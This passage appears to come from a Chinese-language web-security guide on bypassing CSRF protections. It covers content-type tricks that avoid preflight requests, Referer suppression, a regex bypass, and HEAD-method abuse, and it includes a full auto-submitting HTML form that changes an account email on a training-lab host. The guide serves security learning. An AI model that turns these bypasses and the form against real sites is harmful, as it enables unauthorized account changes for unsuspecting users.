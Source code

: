 在尝试通过 POST 请求发送 JSON 数据时，在 HTML 表单中使用 `Content-Type: application/json` 是不直接可能的。同样，利用 `XMLHttpRequest` 发送此内容类型会启动预检请求。然而，有一些策略可以潜在地绕过此限制，并检查服务器是否处理 JSON 数据而不考虑 Content-Type：

1. **使用替代内容类型**：通过在表单中设置 `enctype="text/plain"`，使用 `Content-Type: text/plain` 或 `Content-Type: application/x-www-form-urlencoded`。这种方法测试后端是否使用数据，而不考虑 Content-Type。
2. **修改内容类型**：为了避免预检请求，同时确保服务器将内容识别为 JSON，可以使用 `Content-Type: text/plain; application/json` 发送数据。这不会触发预检请求，但如果服务器配置为接受 `application/json`，则可能会正确处理。
3. **SWF Flash 文件利用**：一种不太常见但可行的方法是使用 SWF Flash 文件来绕过此类限制。有关此技术的深入理解，请参阅 [这篇文章](https://anonymousyogi.medium.com/json-csrf-csrf-that-none-talks-about-c2bf9a480937)。

### 引用/来源检查绕过

**避免引用头**

应用程序可能仅在 'Referer' 头存在时进行验证。为了防止浏览器发送此头，可以使用以下 HTML 元标签：
```xml
<meta name="referrer" content="never">
```
这确保了“Referer”头被省略，从而可能绕过某些应用程序中的验证检查。

**正则表达式绕过**

{% content-ref url="ssrf-server-side-request-forgery/url-format-bypass.md" %}
[url-format-bypass.md](ssrf-server-side-request-forgery/url-format-bypass.md)
{% endcontent-ref %}

要在Referrer将要在参数中发送的URL中设置服务器的域名，可以执行：
```html
<html>
<!-- Referrer policy needed to send the qury parameter in the referrer -->
<head><meta name="referrer" content="unsafe-url"></head>
<body>
<script>history.pushState('', '', '/')</script>
<form action="https://ac651f671e92bddac04a2b2e008f0069.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
<input type="submit" value="Submit request" />
</form>
<script>
// You need to set this or the domain won't appear in the query of the referer header
history.pushState("", "", "?ac651f671e92bddac04a2b2e008f0069.web-security-academy.net")
document.forms[0].submit();
</script>
</body>
</html>
```
### **HEAD 方法绕过**

[**这个 CTF 文章**](https://github.com/google/google-ctf/tree/master/2023/web-vegsoda/solution) 的第一部分解释了 [Oak 的源代码](https://github.com/oakserver/oak/blob/main/router.ts#L281)，一个路由器被设置为 **将 HEAD 请求作为 GET 请求处理**，且没有响应体 - 这是一种常见的变通方法，并不是 Oak 独有的。它们并没有特定的处理程序来处理 HEAD 请求，而是 **直接交给 GET 处理程序，但应用程序只是移除了响应体**。

因此，如果 GET 请求受到限制，你可以 **发送一个将被处理为 GET 请求的 HEAD 请求**。

## **利用示例**
